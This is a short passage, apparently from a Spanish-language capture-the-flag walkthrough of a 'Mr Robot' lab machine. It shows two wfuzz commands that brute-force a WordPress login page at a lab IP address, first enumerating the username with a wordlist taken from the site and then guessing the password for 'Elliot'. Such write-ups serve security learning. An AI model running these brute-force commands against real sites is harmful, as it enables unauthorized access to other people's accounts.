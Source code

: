 <img src="/imgs/mrRobot/mrRobot8.png"/>
* <p>Ahora vemos que es un login asi que teniendo un diccionario que me proporciono la misma pagina web por que no usarlo contra si misma?,</p>
> wfuzz -t 200 -c --hs "Invalid username" -z file,fsocity.dic  -d "log=FUZZ&pwd=NULL" http://10.10.94.16/wp-login.php
>
<img src="/imgs/mrRobot/mrRobot9.png"/>
* <p>Ok tenemos ya el username <font color="yellow">Eliot</font>, nos falta ahora la contraseña, hagamos de nuevo lo mismo.</p>
> wfuzz -t 200 -c --hc=200  -z file,fsocity.dic -d "log=Elliot&pwd=FUZZ" http://10.10.94.16/wp-login.php
>